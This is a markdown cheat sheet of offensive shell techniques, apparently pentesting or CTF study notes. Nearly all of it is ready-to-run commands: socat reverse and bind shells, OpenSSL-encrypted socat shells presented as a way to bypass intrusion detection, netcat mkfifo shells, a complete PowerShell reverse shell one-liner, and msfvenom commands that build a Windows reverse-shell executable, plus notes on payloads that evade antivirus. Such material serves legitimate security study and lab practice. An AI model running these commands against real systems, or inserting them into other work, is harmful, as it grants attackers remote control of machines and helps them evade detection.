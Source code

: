 ```bash

```

# Socat
Socat is similar to Netcat. It works as a connector between two points.

## Reverse Shells
### Syntax for A Listener/Attacker
* `socat TCP-L:<port> -` [ Two points (a listening port, and standard input) and connecting them together]
  
###  To Connect Back on A Windows Target
* `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes` [The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.]
###  To Connect Back on A Linux Target
* `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`

## Bind Shells
### On A Linux Target
* `socat TCP-L:<PORT> EXEC:"bash -li"`
### On A Windows Target
* `socat TCP-L:<PORT> EXEC:powershell.exe,pipes`
### Attacker (Regardless of target platform)
* `socat TCP:<TARGET-IP>:<TARGET-PORT> -`

## A Fully Stable TTY Reverse Shell Using Socat
```bash
socat TCP-L:<port> FILE:`tty`,raw,echo=0
```
We are passing in the current TTY as a file and setting the echo to be zero

<br> <br> <br><br> <br> <br>
# Socat Encrypted Shells
Encryption helps us bypass IDS <br>
We Will use OPENSSL instead of TCP <br>
## Generate A Certificate
```bash
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```
## Merge 2 files into one
```bash
cat shell.key shell.crt > shell.pem
```
## Set Up Reverse Shell Listener on Attacker
```bash
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```
verify=0 tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority.
## To Connect Back on Target Machine
```bash
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

## Blind Shell
### Target
```bash
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
```

### Attacker
```bash
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
```
------------------------------------------------------------------------------------------------------------------
<br> <br> <br><br> <br> <br>
# Common Shell Payloads
## Windows
### Bind Shell; Set Up A Listener
```bash
nc -lvnp <PORT> -e /bin/bash
```
### Reverse Shell; Connecting Back
```bash
nc <LOCAL-IP> <PORT> -e /bin/bash
```

## Linux
### Bind Shell; Create A Listener
```bash
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

### Reverse Shell; Connecting Back
```bash
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
### Create A PowerShell Reverse Shell
```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
* Replace the IP and port
* Will work on cmd.exe shell or webshell
<br> <br> <br><br> <br> <br>
# Msfvenom
Standard Syntax: `msfvenom -p <PAYLOAD> <OPTIONS>`
<br>To generate a Windows x64 Reverse Shell in an exe format: <br>
```bash
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
```

## Payloads
* Staged: 2 Parts; 1. Small Stager (Creates Connection) & 2. Bulkier Reverse Shell Code downloaded later
* Stageless: Self-contained Payloads that immediately sends a shell back <br>
**NOTE:** Stageless Payloads are easier to send but easily discovered by AV. Staged Payloads are more efficient.

## Meterpreter
* Metasploit's Own Shells and they must be caught in metasploit
* Fully Stable
* Good for Windows Targets

## Payload Naming Conventions
Basic Convention: `<OS>/<arch>/<payload>` <br>
For example:
`linux/x86/shell_reverse_tcp` <br>
The exception to this convention is Windows 32bit targets. For these, the arch is not specified. e.g.: `windows/shell_reverse_tcp`

<br>
For a 64bit Windows target, the arch would be specified as normal (x64).

For Full List of Payloads:
```bash
msfvenom --list payloads
```

### Optional Read
In the above examples the payload used was shell_reverse_tcp. This indicates that it was a stageless payload. How? Stageless payloads are denoted with underscores (_). The staged equivalent to this payload would be:
`shell/reverse_tcp`
<br>
As staged payloads are denoted with another forward slash (/).
<br>
This rule also applies to Meterpreter payloads. A Windows 64bit staged Meterpreter payload would look like this: `windows/x64/meterpreter/reverse_tcp`

A Linux 32bit stageless Meterpreter payload would look like this:
`linux/x86/meterpreter_reverse_tcp`

